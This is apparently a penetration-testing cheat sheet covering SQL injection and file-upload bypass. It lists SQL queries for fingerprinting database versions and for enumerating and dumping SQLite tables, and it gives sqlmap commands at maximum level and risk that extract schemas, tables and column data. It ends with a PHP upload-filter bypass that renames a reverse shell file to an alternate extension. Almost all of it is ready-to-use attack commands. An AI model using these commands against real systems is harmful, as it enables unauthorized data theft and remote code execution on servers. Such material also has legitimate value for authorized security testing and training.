 ### Version
```
# MySQL and MSSQL
@@version

# Oracle
SELECT banner FROM v$version)

# SQLite
sqlite_version()
```

### SQLite
```
# Table names
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

# List table fields
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='{TABLE}'

# Dump table fields
SELECT group_concat({FIELD_1} || "," || {FIELD_2} || "," || {FIELD_3} || ":") from {TABLE}
```

### SQLMap Analysis
```
# GET URL Parameter
sqlmap -u "http://example.com/search.php?q=" -p "q" --level=3 --risk=3 --random-agent --batch
```

```
# POST Paramenter where login.req is a text file with a login POST intercepted by Burp
sqlmap -r login.req -p "{POST_PARAMETER_1},{POST_PARAMETER_2}" --level=3 --risk=3 --random-agent --batch
```

```
# Navigation
sqlmap -r login.req -p {PARAMETER} --batch --current-db
sqlmap -r login.req -p {PARAMETER} --batch -D {DB} --schema
sqlmap -r login.req -p {PARAMETER} --batch -D {DB} --tables
sqlmap -r login.req -p {PARAMETER} --batch -D {DB} -T {TABLE} --columns
sqlmap -r login.req -p {PARAMETER} --batch -D {DB} -T {TABLE} -C {FIELD_1},{FIELD_2},{FIELD_3} --dump
```

# PHP Uploading Bypass

```
# .php
# .php3
# .php4
# .php5
# .phtml

mv reverse_shell.php reverse_shell.phtml
```
